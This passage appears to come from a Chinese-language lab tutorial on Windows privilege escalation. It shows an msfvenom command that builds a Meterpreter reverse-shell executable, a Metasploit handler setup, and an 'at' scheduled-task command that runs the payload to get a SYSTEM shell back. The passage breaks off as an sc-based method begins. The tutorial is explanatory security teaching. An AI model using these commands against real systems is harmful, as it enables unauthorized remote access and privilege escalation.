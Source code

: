 至于运行木马就不演示了。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.20 LPORT=4444 -f exe > shell.exe
```

![image-20230327105127142](https://s2.loli.net/2023/03/27/vzptEA3ahDQoRFc.png)

#### 设置监听

这里设置一个监听，用于接收反弹回来的shell。

```
msfconsole 
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 192.168.10.20 
set LPORT 4444 
run
```

![image-20230327110440018](https://s2.loli.net/2023/03/27/xD6XQ5FRk2jiZIY.png)

#### 设置反弹

这里在接收到msf木马反弹回来的shell后，进入shell后执行下面的命令。

```
at 11:11 C:\111\shell.exe
```

![image-20230327114238622](https://s2.loli.net/2023/03/27/VsboEXHxqv6dcy3.png)

#### 查看反弹效果

通过另外再启动一个监听端口的，来查看新反弹回来的权限是什么，可以看到到11点11分的时候执行shell.exe，反弹回来的就是system权限。

```
getuid
```

![image-20230327114624049](https://s2.loli.net/2023/03/27/HCgc2Rn5VxdAIpD.png)

# sc本地命令提权

sc是用于与服务控制管理器和服务进行通信的命令行程序，提供的功能类似于控制面板中管理工具项中的服务。

## 适用范围

网上说在windows 7/8，Windows server2003、2008、2012、2016上都能使用，这里的都能只适用于sc这条命令本身。

而利用sc进行提权，通过测试，目前好像只有2003可以。

## 命令使用
